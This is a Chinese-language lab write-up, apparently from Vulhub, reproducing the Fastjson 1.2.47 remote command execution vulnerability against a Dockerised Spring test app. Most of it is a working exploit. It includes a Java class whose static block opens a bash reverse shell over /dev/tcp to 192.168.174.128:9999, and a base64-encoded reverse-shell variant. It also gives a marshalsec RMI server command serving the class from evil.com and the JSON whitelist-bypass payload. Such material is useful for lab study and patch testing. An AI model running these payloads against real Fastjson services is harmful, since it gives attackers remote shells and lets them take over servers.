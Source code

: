 # Fastjson 1.2.47 远程命令执行漏洞

## 漏洞描述

Fastjson是阿里巴巴公司开源的一款json解析器，其性能优越，被广泛应用于各大厂商的Java项目中。fastjson于1.2.24版本后增加了反序列化白名单，而在1.2.48以前的版本中，攻击者可以利用特殊构造的json字符串绕过白名单检测，成功执行任意命令。

参考链接：

- https://cert.360.cn/warning/detail?id=7240aeab581c6dc2c9c5350756079955
- https://www.freebuf.com/vuls/208339.html

## 环境搭建

Vulhub执行如下命令启动一个spring web项目，其中使用fastjson作为默认json解析器：

```shell
docker-compose up -d
```

环境启动后，访问`http://your-ip:8090`即可看到一个json对象被返回，我们将content-type修改为`application/json`后可向其POST新的JSON对象，后端会利用fastjson进行解析。

## 漏洞复现

目标环境是`openjdk:8u102`，这个版本没有`com.sun.jndi.rmi.object.trustURLCodebase`的限制，我们可以简单利用RMI进行命令执行。

首先编译并上传命令执行代码，如`http://evil.com/TouchFile.class`：

```java
// javac TouchFile.java
import java.lang.Runtime;
import java.lang.Process;

public class TouchFile {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"/bin/bash","-c","exec 5<>/dev/tcp/192.168.174.128/9999;cat <&5 | while read line; do $line 2>&5 >&5; done"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
}
```

也可以使用bash base64的方式：

```java
String[] commands = {"bash", "-c","{echo, YmFzaCAtaSA+JiAvZGV2L3RjcC8xMDEuNDMuMTQ3LjEyNy85OTk5IDA+JjE=}|{base64,-d}|{bash,-i}"};
```

然后我们借助[marshalsec](https://github.com/mbechler/marshalsec)项目，启动一个RMI服务器，监听8888端口，并制定加载远程类`TouchFile.class`：

```shell
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://evil.com/#TouchFile" 9999
```

向靶场服务器发送Payload（此处的Payload和Fastjson 1.2.24不同）：

```
{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://evil.com:8888/TouchFile",
        "autoCommit":true
    }
}
```

![image-20220223130855285](images/202202231308359.png)

监听9999端口，接收反弹shell：

![image-20220223130812872](images/202202231308945.png)

